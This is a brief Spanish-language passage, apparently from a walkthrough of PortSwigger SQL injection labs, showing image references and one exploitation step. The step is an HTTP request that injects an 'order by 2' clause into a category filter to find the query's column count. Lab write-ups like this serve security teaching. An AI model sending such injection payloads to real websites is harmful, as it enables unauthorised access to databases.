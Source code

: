 <img src="/img/articulos/sqli-portswigger/20.png" alt="">

* **Explotación**

En este caso, el número total de columnas son dos

```null
GET /filter?category=Lifestyle'+order+by+2--+- HTTP/2
```

<img src="/img/articulos/sqli-portswigger/21.png" alt="">
